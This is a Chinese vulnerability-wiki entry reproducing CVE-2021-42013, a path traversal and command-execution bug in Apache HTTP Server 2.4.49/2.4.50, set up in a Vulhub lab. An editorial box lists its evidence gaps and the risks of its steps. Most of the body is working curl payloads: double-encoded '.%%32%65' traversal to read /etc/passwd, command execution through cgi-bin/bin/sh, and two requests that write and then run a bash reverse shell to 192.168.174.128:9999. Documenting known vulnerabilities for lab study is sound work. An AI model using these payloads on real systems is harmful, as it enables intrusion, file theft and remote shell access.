



# Apache HTTP Server 2.4.50 路径穿越漏洞 CVE-2021-42013

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.4.49/2.4.50及越界目录访问控制允许，RCE另需CGI/cgid
- 证据范围：旧payload失败与新编码成功对照有价值，与48相似但不同漏洞不可删成一篇无区别条目

### 本次正文校订

- 按实际内容修正 5 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version错抽docker-compose build
- 遗漏48已述Require访问控制条件，应在本篇自包含
- .%%32%65是特定部分编码构造，称%2e标准再次URL编码不准确
- 缺明确固定2.4.51与环境配置；反弹写脚本有残留

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```shell
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞复现

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但可以使用`.%%32%65`进行绕过，`.%%32%65`是对`%2e`再次URL编码后的结果（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```shell
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：




在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```shell
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```




写入反弹shell

```shell
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

执行反弹shell

```shell
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
